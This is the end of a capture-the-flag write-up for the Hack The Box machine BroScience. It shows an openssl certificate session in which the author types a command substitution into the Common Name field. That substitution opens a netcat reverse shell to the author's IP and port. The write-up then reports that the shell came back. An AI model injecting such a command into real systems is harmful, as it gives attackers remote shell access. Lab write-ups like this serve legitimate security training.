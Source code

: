 ```bash
-bash-5.1$ openssl req -x509 -sha256 -nodes -newkey rsa:4096 -days 5 -keyout bro.key -out ev.crt
Generating a RSA private key
.............................................................++++
.............++++
writing new private key to 'bro.key'
-----
You are about to be asked to enter information that will be incorporated
into your certificate request.
What you are about to enter is what is called a Distinguished Name or a DN.
There are quite a few fields but you can leave some blank
For some fields there will be a default value,
If you enter '.', the field will be left blank.
-----
Country Name (2 letter code) [AU]:
State or Province Name (full name) [Some-State]:
Locality Name (eg, city) []:
Organization Name (eg, company) [Internet Widgits Pty Ltd]:
Organizational Unit Name (eg, section) []:
Common Name (e.g. server FQDN or YOUR name) []:$(nc 10.10.14.221 1337 -c /bin/bash)
Email Address []:
```

And after some time I got back this:

![[write-ups/images/Pasted image 20230301203321.png]]

![](https://media4.giphy.com/media/l49JHDggRzqHQP1ny/200w.webp?cid=ecf05e479q8fg95m6hovvtwg6109b501up4nvep0ncb1r8hp&rid=200w.webp&ct=g)


---

## Refs
- [room](https://app.hackthebox.com/machines/BroScience)

## See Also
- [[write-ups/HTB]]
